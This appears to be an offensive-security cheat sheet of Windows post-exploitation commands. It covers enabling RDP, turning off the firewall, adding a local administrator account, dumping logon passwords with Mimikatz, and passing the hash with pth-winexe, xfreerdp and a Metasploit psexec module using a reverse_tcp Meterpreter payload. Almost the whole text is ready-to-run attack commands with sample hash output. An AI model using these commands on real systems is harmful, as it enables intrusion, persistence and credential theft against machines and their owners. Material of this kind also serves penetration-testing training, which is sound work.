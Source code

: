 ### Enable RDP Access
{% highlight bash %}
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
{% endhighlight %}

### Turn Off Windows Firewall
{% highlight bash %}
netsh firewall set opmode disable
{% endhighlight %}

### Meterpreter VNC\RDP
{% highlight bash %}a
# https://www.offensive-security.com/metasploit-unleashed/enabling-remote-desktop/
run getgui -u admin -p 1234
run vnc -p 5043
{% endhighlight %}

### Add New user in Windows
{% highlight bash %}
net user test 1234 /add
net localgroup administrators test /add
{% endhighlight %}

### Mimikatz use
{% highlight bash %}
git clone https://github.com/gentilkiwi/mimikatz.git
privilege::debug
sekurlsa::logonPasswords full
{% endhighlight %}

### Passing the Hash
{% highlight bash %}
git clone https://github.com/byt3bl33d3r/pth-toolkit
pth-winexe -U hash //IP cmd

or

apt-get install freerdp-x11
xfreerdp /u:offsec /d:win2012 /pth:HASH /v:IP

or

meterpreter > run post/windows/gather/hashdump
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit
meterpreter > shell
{% endhighlight %}
